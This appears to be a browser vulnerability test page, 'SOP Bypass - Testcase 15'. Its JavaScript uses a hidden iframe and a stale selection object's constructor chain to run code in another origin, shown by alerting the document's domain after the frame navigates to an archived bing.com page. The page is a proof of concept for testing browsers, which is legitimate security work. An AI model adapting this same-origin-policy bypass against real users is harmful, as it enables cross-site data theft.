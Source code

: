```yaml
---
layout: default
title: SOP Bypass - Testcase 15
permalink: /sop/new/15
---
```


<script>
function myfunction() {
    frame = document.body.appendChild(document.createElement("iframe"));
    frame.width = "0px";
    frame.height = "0px";
    wnd = frame.contentWindow;
    func = wnd.Function;
    wnd.location = "about:blank";
    frame.onload = function() {
        selection = func("return getSelection()")();
        wnd.location = "https://web.archive.org/web/20180831134341/http://www.bing.com";
        frame.onload = function() {
            frame.onload = null;
            selection.baseNode.constructor.constructor.constructor("alert(document.domain)")();
        }
    }
}
</script>

<input type="button" id="btn_test" class="test" value="Run Test Case" onclick="myfunction()">

**Note:**
If page displays an alert box displaying bing.com, your browser is vulnerable to SOP bypass.

